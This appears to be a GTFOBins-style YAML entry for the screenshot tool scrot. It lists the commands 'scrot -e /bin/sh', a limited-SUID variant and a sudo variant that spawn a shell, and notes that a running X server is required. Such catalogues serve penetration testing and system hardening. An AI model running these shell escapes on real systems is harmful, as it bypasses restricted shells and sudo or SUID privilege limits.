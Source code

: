 ```yaml
---
description: This requires a running X server.
functions:
  shell:
    - code: scrot -e /bin/sh
  limited-suid:
    - code: ./scrot -e /bin/sh
  sudo:
    - code: sudo scrot -e /bin/sh
---
```

